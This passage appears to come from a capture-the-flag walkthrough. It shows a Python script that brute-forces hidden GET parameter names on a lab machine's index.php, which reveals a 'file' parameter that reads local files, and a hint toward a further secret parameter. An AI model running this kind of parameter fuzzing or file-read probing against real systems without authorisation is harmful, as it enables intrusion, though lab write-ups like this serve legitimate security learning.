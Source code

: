 To find the hidden parameter I developed a python script to find it.

```python
#!/usr/bin/env python3

import requests,signal,sys
from colorama import init,Fore

green=Fore.GREEN
red=Fore.RED
reset=Fore.RESET

def signal_handler(sig, frame):
    print(f"{red}\rYou pressed CTRL+C{reset}")
    op=str(input("[e]xit / [c]ontinue:" ))
    if op=='e':
        sys.exit(0)
    else:
        pass

signal.signal(signal.SIGINT, signal_handler)

def req(p):
    r=requests.get(f"http://192.168.179.134/index.php?{p}=location.txt")
    return len(r.text)

wordlist=open("/usr/share/wfuzz/wordlist/general/common.txt").read().splitlines()

if __name__=="__main__":
    for p in wordlist:
        print(f"{green}{req(p)} => {p}{reset}")
```

I run the script and find the **file** parameter with a different size request, as shown below:

```console
root@kali:~$ python3 fuzz.py
...
136 => field                  
334 => file        
136 => files
...
```

I verify the request with the browser and indeed the **file** parameter is correct, we found a note that tells us to use the **secrettier360** parameter on some other php page.

`http://192.168.179.134/index.php?file=location.txt`
